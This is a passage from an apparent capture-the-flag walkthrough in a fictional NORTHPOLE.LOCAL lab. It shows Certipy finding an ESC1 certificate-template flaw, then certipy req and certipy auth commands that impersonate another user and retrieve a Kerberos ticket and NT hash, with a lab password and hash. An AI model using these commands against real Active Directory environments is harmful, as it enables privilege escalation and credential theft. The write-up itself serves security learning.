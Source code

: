 ```
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : NORTHPOLE.LOCAL\Domain Admins
                                          NORTHPOLE.LOCAL\Domain Users
                                          NORTHPOLE.LOCAL\Enterprise Admins
      Object Control Permissions
        Owner                           : NORTHPOLE.LOCAL\Enterprise Admins
        Write Owner Principals          : NORTHPOLE.LOCAL\Domain Admins
                                          NORTHPOLE.LOCAL\Enterprise Admins
        Write Dacl Principals           : NORTHPOLE.LOCAL\Domain Admins
                                          NORTHPOLE.LOCAL\Enterprise Admins
        Write Property Principals       : NORTHPOLE.LOCAL\Domain Admins
                                          NORTHPOLE.LOCAL\Enterprise Admins
    [!] Vulnerabilities
      ESC1                              : 'NORTHPOLE.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

Then I can exploit that and get the cert (ref the ESC-1 vuln details in the github page):

```
alabaster@ssh-server-vm:~$ certipy req -username elfy@northpole.local -password 'J4`ufC49/J4766' -ca northpole-npdc01-CA -target 10.0.0.53 -template NorthPoleUsers -upn wombleycube@northpole.local -dc-ip 10.0.0.53
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 27
[*] Got certificate with UPN 'wombleycube@northpole.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'wombleycube.pfx'

Then I can use that cert to get the hash:

alabaster@ssh-server-vm:~$ certipy auth -pfx wombleycube.pfx -dc-ip 10.0.0.53
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: wombleycube@northpole.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'wombleycube.ccache'
[*] Trying to retrieve NT hash for 'wombleycube'
[*] Got hash for 'wombleycube@northpole.local': aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23
```
